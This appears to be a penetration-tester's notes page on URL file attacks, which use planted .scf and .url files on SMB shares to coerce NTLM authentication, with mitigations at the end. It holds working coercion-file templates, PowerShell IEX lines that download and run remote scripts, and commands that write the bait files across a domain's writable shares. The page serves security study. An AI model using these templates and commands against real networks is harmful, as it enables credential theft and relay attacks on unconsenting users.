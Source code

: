 ```yaml
---
date: 
tags:
  - Windows
---
```


```table-of-contents
```

# URL File Attack

## Description

A URL file attack is a type of network-based exploit that manipulates certain file formats to deceive systems into revealing sensitive information, such as NTLM hashes. This attack exploits the behaviour of URL files (.url), shell command files (.scf), and other file types to initiate connections to an adversary-controlled listener.

An adversary generates files with specific content that directs systems to a network resource managed by the attacker. These files can be of different types, such as .url, .scf, or .lnk:

* **.url File:** A shortcut file that contains a URL pointing to a remote server.
* **.scf File:** A Shell Command File configured to initiate a connection to a remote server.
* **.lnk File:** A Windows shortcut file crafted to point to a remote server.

The attacker distributes these malicious files to potential victims through email attachments, file-sharing services, or other means. When a victim interacts with the file (e.g., opening the file or even just viewing it within explorer), the file triggers the system to connect to the remote server specified in the file.

During the connection attempt, the victim’s system tries to authenticate with the remote server using NTLM (Windows authentication protocol). The attacker’s server captures the NTLM hash, which can then be used for further attacks, such as pass-the-hash attacks.

This document covers delivery through means of SMB shares.

## File Templates

```Powershell 
[Shell]
Command=2
IconFile=\\[Listener-IP]\share\icon.ico
[Taskbar]
Command=ToggleDesktop
```

```Powershell
[InternetShortcut]
URL=\\[Listener-IP]\share
```

## Performing the Attack from Windows

### Tools Required

* Inveigh: [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)
* Invoke-ShareHunter (Optional): [https://github.com/Leo4j/Invoke-ShareHunter](https://github.com/Leo4j/Invoke-ShareHunter)

### Permissions Required

* Local Administrator (If using Inveigh to capture hashes)
* Write permissions over a SMB share


Load Inveigh and configure listener

```powershell
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1")

# Load Inveigh and set listener IP (Attack System)
Invoke-Inveigh -ConsoleOutput Y -HTTPS Y -IP 10.10.10.7
```

```powershell
IEX (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-ShareHunter/main/Invoke-ShareHunter.ps1')

# Identify writeable shares within the domain
Invoke-ShareHunter -Domain security.local

# Write NTLM coercion files to identified writeable shares
Invoke-URLFileAttack -WritableShares "C:\Users\StandardUser\Shares_Writable.txt"
```

**Writing files to writeable shares**

![](../../Assets/Pasted%20image%2020250619212529.png)

**Later, a user browses to a share containing the crafted files and a NTLM hash is captured on the listener**

![](../../Assets/Pasted%20image%2020250619212707.png)

From this point, various opportunity exists to perform further compromise. The captured Hash may be cracked to reveal the underlying account password or the hash may be relayed using tools such as ntlmrelayx.;

## Mitigation

**Disable NTLM Authentication**

Disabling NTLM authentication within the domain is the most effective defence against this type of attack and other NTLM coercion-based attacks. However, it is understandable that disabling NTLM authentication within an enterprise may not be easily or quickly achievable for many organizations. In such cases, additional mitigations can be implemented. While these additional measures may not completely eliminate the attack vector, they can offer a degree of protection against this type of attack.

Reference: [https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/active-directory-hardening-series-part-1-disabling-ntlmv1/ba-p/3934787](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/active-directory-hardening-series-part-1-disabling-ntlmv1/ba-p/3934787)


**Audit and restrict SMB share permissions**

URL file attacks are possible when an adversary controlled account has write access to SMB shares within the domain. The best defence here is to audit all SMB shares and remove unexpected or overly permissive write permissions from accounts that do not require that level of access. Broadly, domain user accounts often have write access to an undesirable number of shares within the enterprise and should be revoked.

## References

* [https://www.scip.ch/en/?labs.20210909](https://www.scip.ch/en/?labs.20210909)
* [https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication)

# Resources

- https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.scf

- [URL File Attack | Pentest Everything](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/forced-coercion/url-file-attack)
